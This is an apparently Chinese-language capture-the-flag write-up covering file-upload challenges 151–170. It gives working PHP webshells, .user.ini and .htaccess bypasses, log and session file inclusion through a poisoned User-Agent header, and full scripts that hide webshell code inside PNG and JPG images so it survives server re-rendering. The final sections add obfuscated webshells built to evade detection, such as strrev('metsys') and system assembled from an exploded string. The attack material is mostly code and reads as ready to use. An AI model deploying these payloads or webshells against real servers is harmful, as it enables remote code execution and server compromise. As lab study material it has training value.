## 151

关闭浏览器js

或者抓包修改成一句话



## 152

上传 1.php然后抓包修改content-type为 image/png或者上传.png文件后修改后缀为.php



## 153

https://www.dazhuanlan.com/2020/03/08/5e641cbc397c2/

发现很容易上传如`php5,phtml`等类型文件,但是不解析.通过插件识别为nginx服务器,尝试上传`.user.ini`,发现上传成功
 

文件内容:

```php
auto_prepend_file = 1.php
1
```

然后上传一张图片马,`1.php`
 内容:

```php
phpinfo();
@eval($_POST['hacker']);
12
```

然后访问 /upload/index.php

## 154

先上传`.user.ini`,再上传图片马,再访问/upload/index.php

在前面一题的基础上增加了内容过滤,过滤了`php` , 可以用大小写来绕过



尝试使用短标签绕过
 对于php的标签其他写法，我们这里多说几种
 **1、**

```php
<? echo '123';?>
```

前提是开启配置参数short_open_tags=on
 **2、**

```php
<?=(表达式)?>  等价于 <?php echo (表达式)?>
```

不需要开启参数设置

**3、**

```php
<% echo '123';%>
```

前提是开启配置参数asp_tags=on，**经过测试发现7.0及以上修改完之后也不能使用，而是报500错误，但是7.0以下版本在修改完配置后就可以使用了。**
 **4、**

```php
<script language=”php”>echo '123'; </script>
1
```

不需要修改参数开关，但是只能在7.0以下可用。
 对于该题，我们可用使用`<?=(表达式)?>`进行绕过，图片内容 `<?=eval($_POST[1]);?>`

## 155 文件内容过滤php

测试正常的 png 图片可以上传。

对图片内容过滤`php`

大小写不能绕过了

绕过 `<?=eval($_POST['a']);`

## 156过滤 php, [

测试，又是文件内容过滤了 `php`.

紧接着发现事情没这么简单，还过滤了`[`，这给传参造成了一定的困难。

但是我们可以直接

```
<?=system('cat ../flag.???');

<?=eval($_POST{'a'});    # 用 {} 代替   []
```

## 157-158过滤; php [] {}

eval用不了了

直接

```php
<?=system('ls ../')?>
<?=system('cat ../*')?>
```

## 159 又过滤()

无法使用函数,使用``

## 160 过滤`` 包含日志文件

过滤了括号反引号还有一些关键字
 利用日志包含绕过，图片内容`<?=include"/var/lo"."g/nginx/access.lo"."g"?>`因为log被过滤了。所以用拼接绕过
 上传完.user.ini和图片后
 访问网站然后修改ua头信息
 
 接着访问/upload即可拿到flag

## 161

在160的基础上增加图片头即可，即 GIF89A

## 162-163 包含session文件

https://www.freebuf.com/vuls/202819.html

首先上传.user.ini



然后进行条件竞争



另外一边一直访问upload/index.php

           

## 164 二次渲染

二次渲染原理 : https://www.fujieace.com/penetration-test/upload-labs-pass-16.html

PNG图片马脚本:

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
?>
```

然后会在当前目录下生成一个图片马





## 165 二次渲染 jpg


```php
<?php

    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

1、随便找一个jpg图片，先上传至服务器然后再下载到本地保存为 1.jpg ；

2、插入php代码；使用脚本处理1.jpg，命令：

```
php jpg_payload.php 1.jpg
```

使用16进制编辑器打开，就可以看到插入的php代码；



3、上传图片马；将生成的 payload_1.jpg上传。

4、验证；将上传的图片再次下载到本地，使用16进制编辑器打开。

可以看到，php代码没有被去除，证明我们成功上传了含有php代码的jpg图片。



注意：有一些jpg图片不能被处理，所以要多尝试一些jpg图片。

## 166

前端验证只能上传ZIP文件,然后随便上传一个文件,发现点击下载文件后会包含文件



上传一句话



## 167 .htaccess

抓包测试了一下，是黑名单。

开局有个提示`httpd`

测试apache解析漏洞没解析。

apache 解析漏洞：https://blog.csdn.net/qq_32434307/article/details/79480316

测试`.htaccess`成功。

```
<FilesMatch "1.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后上传带有马的 `1.jpg`即可。

## 168-170

免杀

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
    
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
    
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
    
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

## 169

测试发现

抓包需修改`Content-Type: image/png`

文件名后缀随意。

看看文件内容过滤了啥 <> ? 等等。

只能进行 `.user.ini`日志文件包含了。

思路: 上传 `.user.ini`

```
auto_prepend_file=/var/log/nginx/access.log
```

然后随便上传个php文件即可。

然后改UA为一句话即可。

## 170

测试上传zip，抓包修改，后缀为`php`, MIME类型为`image/png`.

包含`.user.ini`

日志文件`/var/log/nginx/access.log`